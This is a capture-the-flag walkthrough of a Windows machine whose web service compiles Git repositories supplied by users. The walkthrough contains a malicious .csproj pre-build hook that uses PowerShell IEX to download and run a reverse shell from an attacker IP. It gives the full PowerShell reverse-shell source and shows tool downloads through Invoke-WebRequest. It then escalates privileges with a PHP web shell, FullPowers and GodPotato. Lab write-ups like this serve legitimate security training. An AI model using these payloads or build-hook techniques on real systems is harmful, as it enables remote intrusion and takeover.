

<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      
      <span style="margin-left: 5px;">Windows</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Medium</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>IsThisEnox</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>September 30, 2023</span>
    </div>
  </div>

</div>


## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.11.234
```


Website running on port 80, and we also know it is a Windows machine

### Gobuster

``` bash
$ gobuster dir --url http://10.10.11.234/ --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```


### Web Page

The page running on port 80 appears to be running a service that compiles git projects when provided with a Git Repo link.


At the bottom of the page we can input a link for the Git Repo


I attempted to download a reverse shell to the server by using a python http server
First start the http server in the directory of the php rev shell
``` bash
$ python3 -m http.server 8000
```
Then try to request the file through the website


It tries to get a "service=git-upload-pack"


## Gitea Server Setup
To try and get a foothold, I setup a Gitea server on my machine so I can try and build an actual git project through the link

### MariaDB


I used this [guide](https://computingforgeeks.com/install-gitea-git-service-on-debian/) to setup the Gitea server

First add a user for the gitea service
``` bash
$ adduser --system --shell /bin/bash --gecos 'Git Version Control' --group --disabled-password --home /home/git.git
```


Make sure we have a database installed, in this case I used MariaDB
``` bash
$ apt install mariadb-server mariadb-client
```
Start the service and make sure is is active
``` bash
$ systemctl start mysql 
 systemctl status mysql
```


Setup password and remove all test users
``` bash
$ mysql_secure_installation
```


Create a database
``` bash
$ mysql -u root -p
CREATE DATABASE gitea;
GRANT ALL PRIVILEGES ON gitea.* TO 'gitea'@'localhost' IDENTIFIED BY "pass123";
```

### Gitea Service
Now we need to install Gitea
Download the binary, change the name, make it executable and move it to the /usr/local/bin directory, lastly run gitea --version to test if it works (you might need to restart the terminal to update binaries)

``` bash
$ curl -s  https://api.github.com/repos/go-gitea/gitea/releases/latest |grep browser_download_url  |  cut -d '"' -f 4  | grep '\linux-amd64$' | wget -i -
 mv gitea-<version>-linux-amd64 gitea
 chmod +x gitea
 mv gitea /usr/local/bin/
 gitea --version
```


Configure a systemd service for Gitea

``` bash
$ mkdir -p /etc/gitea /var/lib/gitea/{custom,data,indexers,public,log}
$ chown git:git /var/lib/gitea/{data,indexers,log}
$ chmod 750 /var/lib/gitea/{data,indexers,log}
$ chown root:git /etc/gitea
$ chmod 770 /etc/gitea
```

Create /etc/systemd/system/gitea.service
``` text
[Unit]
Description=Gitea (Git with a cup of tea)
After=syslog.target
After=network.target
After=mysql.service

[Service]
LimitMEMLOCK=infinity
LimitNOFILE=65535
RestarttSec=2s
Type=simple
User=git
Group=git
WorkingDirectory=/var/lib/gitea/
ExecStart=/usr/local/bin/gitea web -c /etc/gitea/app.ini
Restart=always
Environment=USER=git HOME=/home/git GITEA_WORK_DIR=/var/lib/gitea

[Install]
WantedBy=multi-user.target
```

Reload daemons and start the gitea service

``` bash
$ systemctl daemon-reload
 systemctl start gitea
 systemctl status gitea
```


We are now able to access the gitea configuration through our browser

Use the same password that was used in the database configuration

Disable self-registration

Lastly, create administrator account and install gitea


We now have a gitea server running

### Create Repository

Now we need to create a local repository, where we will have the malicious code later
Just press the button to create a repository on the Web Gitea page and give the repo a name, in this case I named it 'exploit'

Now create the repository local machine
``` bash
$ touch README.md
git init 
git checkout -b main
git add README.md
git commit -m "first commit"
git remote add origin http://<Attacker IP>:3000/<user>/exploit.gitea
git push -u origin main
```


## Exploit

### C Project

Now I cloned a [Simple C Project](https://github.com/CsEnox/vs-rce) to the created repo directory to test if the target compiles it.
``` bash
$ git clone https://github.com/CsEnox/vs-rce
```

Add the downloaded files to the created repository and push the files

``` bash
$ git add rce
git add rce.sln
git commit -m 'commit'
git push -u origin main
```

Make sure the files are in the repository


Finally, test the target compiler, and see if it compiles our project


It works! Now we need to insert malicious code in our repository


### Malicious .csproj

According to [Microsoft's Documentation](https://learn.microsoft.com/en-us/cpp/build/how-to-use-build-events-in-msbuild-projects?view=msvc-170), we can execute code before the build happens.
We will edit our .csproj file to download a reverse shell from our machine
Make sure to change to the correct IP and port on both files accordingly
``` text
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net7.0</TargetFramework>
    <RootNamespace>project_name</RootNamespace>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/revshell.ps1')" />
  </Target>

</Project>
```
Don't forget to push the changes to the project to our git repository
``` bash
$ git commit -m 'commit'
git push -u origin main
```


The reverse shell file (revshell.ps1):
``` text
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.3', 1234);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
  $writer.Flush();
  $read = $null;
  $res = ""
  while($stream.DataAvailable -or $read -eq $null) {
    $read = $stream.Read($buffer, 0, 1024)
  }
  $out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
  if(!$out.equals("exit")){
    $args = "";
    if($out.IndexOf(' ') -gt -1){
      $args = $out.substring($out.IndexOf(' ')+1);
      $out = $out.substring(0,$out.IndexOf(' '));
      if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
      }
      else{
        $res = (&"$out" "$args") | out-string;
      }
    }
    else{
      $res = (&"$out") | out-string;
    }
    if($res -ne $null){
        $writer.WriteLine($res)
    }
  }
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()
```

### Running the exploit

Head to the directory where we have out revshell.ps1 file
Start a python http server with the port we used in the .csproj file
``` bash
$ python3 -m http.server 8000
```

Also setup a netcat listener with the port we used in the revshell.ps1 file
``` bash
$ nc -lvnp 1234
```

Now if we build our project again in the target machine, it will download the reverse shell from out machine


And we get a shell on our netcat listener


We now have a shell as the user enox
``` cmd
$ whoami
visual\enox
```

We can just get the user.txt file from the user's desktop
``` cmd
cd C:\Users\enox\Desktop
type user.txt
1330b09f170648444f8729b38eccb044
```

## PrivEsc

### NT Authority\Local Service

I headed to the uploads directory, where the compiled projects were saved to

``` cmd
cd C:\xampp\htdocs\uploads
dir
```

There was a todo.txt file in the directory


I tried accessing the file through the browser, I didn't get an error, so I assumed the file was accessible through the browser


So I uploaded a php revshell to the same directory
I used [pentestmonkey's php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), downloaded it to my machine, changed the IP and Port and started a python http server again

On local machine in the php-reverse-shell.php directory:
``` bash
$ python3 -m http.server 8000
```

On target machine:
``` cmd
cmd /c powershell Invoke-WebRequest -Uri http://<AttackerIP>:8000/php-reverse-shell.php -OutFile C:\xampp\htdocs\uploads\shell.php
```

We now have the shell.php file in the target machine uploads directory


Now we setup a listener on the port we have in our reverse shell
``` bash
$ nc -lvnp 1337
```

And we open the shell in our browser:


We get a shell as NT Authority\Local Service


### FullPowers

We still can't access the administrator flag

Since we have a local service account, we can use [FullPowers](https://github.com/itm4n/FullPowers) to escalate our privileges and allows us to use [GodPotato](https://github.com/BeichenDream/GodPotato) and impersonate another client, to get the admin flag

Download both [FullPowers](https://github.com/itm4n/FullPowers) and [GodPotato](https://github.com/BeichenDream/GodPotato) to local machine

Start Python http server in the files directory
``` bash
$ python3 -m http.server 8000
```

Download the files in our target machine
``` cmd
powershell Invoke-WebRequest -Uri http://<AttackerIP>:8000/FullPowers.exe -OutFile Fullpowers.exe
powershell Invoke-WebRequest -Uri http://<AttackerIP>:8000/GodPotato.exe -OutFile GodPotato.exe
dir
```


Now if we run FullPowers.exe, we will get more privileges as Local Service

``` cmd
Fullpowers.exe
whomai /priv
```


### GodPotato
We can now use GodPotato to impersonate another user and get the root.txt flag
``` cmd
GodPotato -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```
